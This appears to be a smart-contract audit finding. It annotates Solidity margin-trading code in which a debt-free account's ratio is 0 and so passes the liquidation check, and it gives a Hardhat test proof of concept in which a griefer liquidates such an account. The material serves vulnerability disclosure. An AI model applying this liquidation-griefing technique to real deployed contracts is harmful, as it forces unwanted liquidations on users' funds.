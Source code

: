 ```solidity
function _calculatePortfolioRatio(uint marginAccountValue, uint debtWithAccruedInterest) private pure returns (uint marginAccountRatio) {
    if (debtWithAccruedInterest == 0) {
        return 0;  // @audit ratio is 0 when debt-free
    }
    require(marginAccountValue*COEFFICIENT_DECUMALS > debtWithAccruedInterest, "Margin Account value should be greater than debt with accrued interest");
    marginAccountRatio = marginAccountValue*COEFFICIENT_DECUMALS/debtWithAccruedInterest;
}

function getMarginAccountRatio(uint marginAccountID) public returns(uint) {
    uint marginAccountValue = calculateMarginAccountValue(marginAccountID);
    uint debtWithAccruedInterest = calculateDebtWithAccruedInterest(marginAccountID);
    return _calculatePortfolioRatio(marginAccountValue, debtWithAccruedInterest);  // @audit ratio is 0 when debt-free
}

function liquidate(uint marginAccountID) external {
    require(getMarginAccountRatio(marginAccountID) <= redCoeff, "Margin Account ratio is too high to execute liquidation");  // @audit will pass when ratio is 0
    marginAccount.liquidate(marginAccountID, BASE_TOKEN, marginAccountManager.ownerOf(marginAccountID));

    emit Liquidate(marginAccountID);
}
```

**Proof of Concept**

Please add the following test case to `margin_trading.spec.ts` in order to reproduce the above liquidation griefing attack.

```typescript
it.only("liquidation griefing of debt-free account", async () => {
  await c.MarginAccountManager.connect(c.deployer).createMarginAccount();
  let WETHprovideAmount = parseUnits("1", await c.WETH.decimals());
  let USDCafterLiquidationAmount = parseUnits("4000", await c.USDC.decimals()); // here: 1 ETH = 4000 USD

  // fund margin account with WETH
  await expect(
    c.MarginTrading.connect(c.deployer).provideERC20(
      0,
      await c.WETH.getAddress(),
      WETHprovideAmount
    )
  ).to.changeTokenBalances(
    c.WETH,
    [await c.signers[0].getAddress(), await c.MarginAccount.getAddress()],
    [-WETHprovideAmount, WETHprovideAmount]
  );
  // expect account to be funded with WETH
  expect(
    await c.MarginAccount.getErc20ByContract(0, await c.WETH.getAddress())
  ).to.be.eq(WETHprovideAmount);

  // griefer liquidates account
  await c.MarginTrading.connect(c.signers[9]).liquidate(0);

  // expect account to be liquidated to USDC
  expect(
    await c.MarginAccount.getErc20ByContract(0, await c.USDC.getAddress())
  ).to.be.eq(USDCafterLiquidationAmount);
});
```